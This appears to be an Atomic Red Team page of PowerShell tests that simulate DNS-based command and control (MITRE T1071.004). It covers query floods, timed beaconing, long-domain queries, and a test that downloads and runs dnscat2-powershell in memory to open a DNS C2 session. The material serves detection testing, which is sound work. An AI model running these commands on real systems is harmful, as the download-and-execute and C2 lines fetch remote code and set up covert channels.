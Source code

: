 # T1071.004 - Application Layer Protocol: DNS

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1071/004)

<blockquote>Adversaries may communicate using the Domain Name System (DNS) application layer protocol to avoid detection/network filtering by blending in with existing traffic. Commands to the remote system, and often the results of those commands, will be embedded within the protocol traffic between the client and server.

The DNS protocol serves an administrative function in computer networking and thus may be very common in environments. DNS traffic may also be allowed even before network authentication is completed. DNS packets contain many fields and headers in which data can be concealed. Often known as DNS tunneling, adversaries may abuse DNS to communicate with systems under their control within a victim network while also mimicking normal, expected traffic.(Citation: PAN DNS Tunneling)(Citation: Medium DnsTunneling) </blockquote>

## Atomic Tests

- [Atomic Test #1 - DNS Large Query Volume](#atomic-test-1---dns-large-query-volume)

- [Atomic Test #2 - DNS Regular Beaconing](#atomic-test-2---dns-regular-beaconing)

- [Atomic Test #3 - DNS Long Domain Query](#atomic-test-3---dns-long-domain-query)

- [Atomic Test #4 - DNS C2](#atomic-test-4---dns-c2)

<br/>

## Atomic Test #1 - DNS Large Query Volume

This test simulates an infected host sending a large volume of DNS queries to a command and control server.
The intent of this test is to trigger threshold based detection on the number of DNS queries either from a single source system or to a single targe domain.
A custom domain and sub-domain will need to be passed as input parameters for this test to work. Upon execution, DNS information about the domain will be displayed for each callout.

**Supported Platforms:** Windows

**auto_generated_guid:** 1700f5d6-5a44-487b-84de-bc66f507b0a6

#### Inputs:

| Name         | Description                            | Type    | Default Value    |
| ------------ | -------------------------------------- | ------- | ---------------- |
| query_type   | DNS query type                         | string  | TXT              |
| subdomain    | Subdomain prepended to the domain name | string  | atomicredteam    |
| query_volume | Number of DNS queries to send          | integer | 1000             |
| domain       | Default domain to simulate against     | string  | 127.0.0.1.nip.io |

#### Attack Commands: Run with `powershell`!

```powershell
for($i=0; $i -le #{query_volume}; $i++) { Resolve-DnsName -type "#{query_type}" "#{subdomain}-$(Get-Random -Minimum 1 -Maximum 999999).#{domain}" -QuickTimeout}
```

<br/>
<br/>

## Atomic Test #2 - DNS Regular Beaconing

This test simulates an infected host beaconing via DNS queries to a command and control server at regular intervals over time.
This behaviour is typical of implants either in an idle state waiting for instructions or configured to use a low query volume over time to evade threshold based detection.
A custom domain and sub-domain will need to be passed as input parameters for this test to work. Upon execution, DNS information about the domain will be displayed for each callout.

**Supported Platforms:** Windows

**auto_generated_guid:** 3efc144e-1af8-46bb-8ca2-1376bb6db8b6

#### Inputs:

| Name        | Description                                                                                        | Type    | Default Value    |
| ----------- | -------------------------------------------------------------------------------------------------- | ------- | ---------------- |
| runtime     | Time in minutes to run the simulation                                                              | integer | 30               |
| domain      | Default domain to simulate against                                                                 | string  | 127.0.0.1.nip.io |
| subdomain   | Subdomain prepended to the domain name                                                             | string  | atomicredteam    |
| query_type  | DNS query type                                                                                     | string  | TXT              |
| c2_interval | Seconds between C2 requests to the command and control server                                      | integer | 30               |
| c2_jitter   | Percentage of jitter to add to the C2 interval to create variance in the times between C2 requests | integer | 20               |

#### Attack Commands: Run with `powershell`!

```powershell
Set-Location "PathToAtomicsFolder"
.\T1071.004\src\T1071-dns-beacon.ps1 -Domain #{domain} -Subdomain #{subdomain} -QueryType #{query_type} -C2Interval #{c2_interval} -C2Jitter #{c2_jitter} -RunTime #{runtime}
```

<br/>
<br/>

## Atomic Test #3 - DNS Long Domain Query

This test simulates an infected host returning data to a command and control server using long domain names.
The simulation involves sending DNS queries that gradually increase in length until reaching the maximum length. The intent is to test the effectiveness of detection of DNS queries for long domain names over a set threshold.
Upon execution, DNS information about the domain will be displayed for each callout.

**Supported Platforms:** Windows

**auto_generated_guid:** fef31710-223a-40ee-8462-a396d6b66978

#### Inputs:

| Name       | Description                                                                             | Type   | Default Value                                                   |
| ---------- | --------------------------------------------------------------------------------------- | ------ | --------------------------------------------------------------- |
| query_type | DNS query type                                                                          | string | TXT                                                             |
| subdomain  | Subdomain prepended to the domain name (should be 63 characters to test maximum length) | string | atomicredteamatomicredteamatomicredteamatomicredteamatomicredte |
| domain     | Default domain to simulate against                                                      | string | 127.0.0.1.nip.io                                                |

#### Attack Commands: Run with `powershell`!

```powershell
Set-Location "PathToAtomicsFolder"
.\T1071.004\src\T1071-dns-domain-length.ps1 -Domain #{domain} -Subdomain #{subdomain} -QueryType #{query_type}
```

<br/>
<br/>

## Atomic Test #4 - DNS C2

This will attempt to start a C2 session using the DNS protocol. You will need to have a listener set up and create DNS records prior to executing this command.
The following blogs have more information.

https://github.com/iagox86/dnscat2

https://github.com/lukebaggett/dnscat2-powershell

**Supported Platforms:** Windows

**auto_generated_guid:** e7bf9802-2e78-4db9-93b5-181b7bcd37d7

#### Inputs:

| Name      | Description                                                                | Type   | Default Value |
| --------- | -------------------------------------------------------------------------- | ------ | ------------- |
| domain    | Domain Name configured to use DNS Server where your C2 listener is running | string | example.com   |
| server_ip | IP address of DNS server where your C2 listener is running                 | string | 127.0.0.1     |

#### Attack Commands: Run with `powershell`!

```powershell
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/45836819b2339f0bb64eaf294f8cc783635e00c6/dnscat2.ps1')
Start-Dnscat2 -Domain #{domain} -DNSServer #{server_ip}
```

<br/>
